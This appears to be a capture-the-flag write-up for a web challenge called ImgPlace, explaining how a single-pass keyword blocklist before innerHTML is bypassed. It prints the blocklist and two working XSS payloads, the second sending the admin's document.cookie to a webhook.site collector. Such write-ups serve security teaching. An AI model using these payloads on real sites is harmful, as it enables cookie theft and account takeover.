 # ImgPlace

**Author**: Daniele [dadadani.xyz](https://dadadani.xyz) <br>
**Category**: Web <br>
**Solve**: 13 <br> 

## Description

Are you a photographer but have no reputation? Join ImgPlace! Share your photos... and become popular!

## How to run the server
To run the server you need [`docker`](https://docs.docker.com/get-started/get-docker/) installed. <br>
Then you can navigate to the `src` folder and run the command `docker compose up --build -d`. <br>
Now you can connect to the server by opening [`http://localhost:3000/`](http://localhost:3000/) in your browser. <br>
To shut down the server run the command `docker compose down`.

## Solution

This website allows users to uploads "photos". Each post may also containg a description.

By looking at the source code of the post page, we can see that a file called `pic.js` is loaded:

```javascript

...

        // We need to block dangerous things!
        const blocklist = [
            "<comment",
            "<embed",
            "<link",
            "<listing",
            "<meta",
            "<noscript",
            "<object",
            "<plaintext",
            "<script",
            "<xmp",
            "<style",
            "<applet",
            "<iframe",
            "<img",
            "onload",
            "onblur",
            "onclick",
            "onerror",
            "href",
            "javascript",
            "window",
            "src",
        ];
        let description = String(data.description);
        blocklist.forEach((word) => {
            description = description.replace(word, "");
        });

        picDesc.innerHTML = description;
    } else {

... 


```

The description is set by using `innerHTML`, which is inherently unsafe.

To prevent attackers from using tags like `<script>`, a blocklist is introduced. Unfortunately, it can be easily bypassed due to the `replace` function only looking one time for words to replace. This allows us to do something like:

```html
<if<iframerame srsrcc="https://example.com" onlonloadoad="alert(1)"></iframe>
```

Additionally, the admin stores the flag inside cookies. We can use a website like [webhook.site](https://webhook.site) to redirect the admin and log the request that has been done.

```html
<if<iframerame srsrcc="https://example.com" onlonloadoad="winwindowdow.location.hrhrefef='https://webhook.site/.../'+document.cookie"></iframe>
```
